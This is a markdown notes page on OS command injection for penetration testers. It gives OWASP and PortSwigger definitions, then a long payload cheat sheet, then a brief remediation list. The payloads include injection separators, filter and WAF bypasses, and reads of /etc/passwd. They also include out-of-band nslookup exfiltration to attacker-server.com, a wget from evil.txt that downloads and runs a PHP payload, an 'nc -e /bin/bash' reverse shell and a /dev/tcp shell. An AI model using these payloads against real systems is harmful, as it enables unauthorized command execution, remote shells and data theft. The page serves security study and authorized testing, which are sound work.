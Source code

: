 # Command Injection

[OWASP](https://owasp.org/www-community/attacks/Command_Injection) states: *"Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation."* [Portswigger](https://portswigger.net/web-security/os-command-injection) also states two variants on the naming convention: *OS command injection is also known as shell injection*.

When a web application makes a call to a function that interacts with the server's console directly.

#### Typology 


```bash
url/ENDPOINT?PARAMETRE=;ls+-la+/ 
PARAMETRE=&type+C:\Windows\System32\drivers\etc\hosts  
```

1. Blind - no direct output from the application when testing payloads
2. Verbose - direct output from the application when testing payloads

OOB (Out Of Band) Exploitation
```bash
& nslookup attacker-server.com &
& nslookup `whoami`.attacker-server.com &
```

Make the remote server sleep for blind PoC  
```bash
sleep 5
```


#### Useful Commands

If your scope allows for connecting back to a box you control
```bash
# If 10.10.10.10 was your controlled box
ping -c 3 10.10.10.10
# Controlled box, substitue flags for like: -i $interface, etc
sudo tcpdump $flags icmp
```

Linux
```bash
whoami
uname -a
ifconfig
netstat -ano
ps -ef
```
Windows
```powershell
whoami
ver
ipconfig /all
netstat -ano
tasklist
```

#### Special Characters 

If `&` as injection character and require an unbroken (that the application intended functionality is not tampered with other than inserting an additional malicious command in between two parameters) command injection try: `& whoami &`

```powershell
# Linux and Windows Host
# From HackTricks - Important: consider whitespace placement!
# Beware whitespace filtering!
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

& %26
&& %26%26
| 
||
%0A
# Linux
;
\n # or 0x0a
# $ or ` to perform inline execution of an injected command
command ` # injected command is `
$( # injected command is )

ls${LS_COLORS:10:1}${IFS}id # Might be useful

# Redirection of output
> /var/www/html/out.txt 
< /etc/passwd 

```

Is Dos or PowerShell executing the command injection payload?
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

#### Bypasses

`%2F` is URL encoded forward slash. `&` and `&&` to make additional commands to the payload that simply a one liner injected into a website. Consider review both [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)and [HackTricks: Bypass-bash-restrictions](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md) for Bypasses

A Windows Filtering bypass been:
```powershell
# Wildcard Windows bypass
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```

Bash Bypass without whitespace
```bash
# $IFS is the Internal Field Separator variable - it contains whitespace characters
cat$IFS/etc/passwd
# Brace expansion to generate arbitrary strings
{cat,/etc/passwd}
# Input redirection without whitespace as `>` and `<` do not require them  
cat</etc/passwd
sh</dev/tcp/127.0.0.1/4242
# ANSI-C Quoting
X=$'uname\x20-a'&&$X
# Use the ASCII tab character: hex 09
;ls%09-al%09/home
```

Window substitute white space 
```powershell
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```

Bash Bypassing Character filters for `\` and `/` from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```bash
# Each returns a /
echo ${HOME:0:1}
echo . | tr '!-0' '"-1'
tr '!-0' '"-1' <<< .


cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
# returns: root:x:0:0:root:/root:/bin/bash

# Backslah newline 
$ cat /et\
c/pa\
sswd
# URL encoded:
cat%20/et%5C%0Ac/pa%5C%0Asswd

```

Bash Bypassing Blacklisted Words from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```bash
w'h'o'am'i
w"h"o"am"i
w\ho\am\i
/\b\i\n/////s\h
who$@ami
echo whoami|$0
who$()ami
who$(echo am)i
who`echo am`i
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

WAF bypasses from [cobalt.io](https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection)
```bash
vuln=127.0.0.1 %0a wget https://evil.txt/reverse.txt -O 
/tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash <attacker-ip> <attacker-port>
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```
#### Exfiltration Via other means

For data exfiltration via DNS use: [dnsbin](https://github.com/HoLyVieR/dnsbin) - [[Data-Exfiltration-Over-DNS]]

#### Remediation and Prevention

1. Replace vulnerable functions interacting with OS - Avoid using shell execution functions
2. Sanitise and Filtering Input - [Portswigger](https://portswigger.net/web-security/os-command-injection):
	- Validating against a whitelist of permitted values.
	- Validating that the input is a number.
	- Validating that the input contains only alphanumeric characters, no other syntax or whitespace characters.
3. The user data should be strictly validated. Ideally with a whitelist. - [Portswigger issues 00100100](https://portswigger.net/kb/issues/00100100_os-command-injection)
4. The application should use command APIs that launch a specific process via its name and command-line parameters, rather than passing a command string to a shell interpreter that supports command chaining and redirection - [Portswigger issues 00100100](https://portswigger.net/kb/issues/00100100_os-command-injection)
## References

[Portswigger](https://portswigger.net/web-security/os-command-injection)
[TryHackMe Room](https://tryhackme.com/room/oscommandinjection)
[OWASP](https://owasp.org/www-community/attacks/Command_Injection)
[Portswigger issues 00100100](https://portswigger.net/kb/issues/00100100_os-command-injection)
[THM OWASP Top 10 2021 Room](https://tryhackme.com/room/owasptop102021)
[Github - Hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md)
[For bypassess HackTricks: Bypass-bash-restrictions](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[Busra Demir's cobalt.io CMDi Article](https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection)